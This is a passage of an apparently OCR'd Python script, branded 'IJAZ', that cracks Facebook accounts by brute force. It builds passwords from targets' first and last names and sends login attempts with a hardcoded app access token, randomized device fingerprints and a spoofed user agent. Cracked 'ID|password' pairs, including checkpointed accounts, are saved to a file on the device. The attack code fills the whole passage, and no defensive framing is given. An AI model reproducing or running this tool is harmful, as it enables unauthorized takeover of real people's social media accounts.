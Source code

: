					break
				elif 'www.facebook.com' in q['error_msg']:
					if 'y' in pcp:
						print('\r\r\x1b[38;5;205m [IJAZ-CP] '+ids+' | '+pas+'\033[1;97m')
						open('/sdcard/IJAZ-CP.txt','a').write(ids+'|'+pas+'\n')
						cps.append(ids)
						break
					else:
						open('/sdcard/IJAZ-CP.txt','a').write(ids+'|'+pas+'\n')
						break
				else:
					continue
			loop+=1
		except requests.exceptions.ConnectionError:
			time.sleep(10)
		except Exception as e:
			pass
#m2
#b-graph method		
def api2(ids,names,passlist):
        try:
                global ok,loop,sim_id
                sys.stdout.write('\r\r\033[1;37m [IJAZ-M2] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn
                for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        en = random.choice(['en_US','en_GB'])
                        cph = random.choice(['CPH1979','CPH1983','CPH1987','CPH2005','CPH2009','CPH2015','CPH2059','CPH2061','CPH2065','CPH2069','CPH2071','CPH2073','CPH2077','CPH2091','CPH2095','CPH2099','CPH2137','CPH2139','CPH2145','CPH2161','CPH2185','CPH2201','CPH2209','CPH1801','CPH1803','CPH1805','CPH1809','CPH1827','CPH1837','CPH1851','CPH1853'])
                        network = random.choice(['Zong','null','Marshmallow','Telekom China'])
                        ua ='Davik/2.1.0 (Linux; U; Android 7.0.0; MMB29K Build/GT-P5100 [FBAN/FB4A;FBAV/241.0.0.41292;FBBV/975202462;FBDM/{density=2.75,width=720,height=9398};FBLC/pl_PL;FBCR/T-Mobile.pl;FBMF/samsung;FBBD/samsung;FBPN/com.facebook.mlite;FBDV/MMB29K;FBSV/4.4.4;nullFBCA/armeabi-v7a:armeabi;]'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())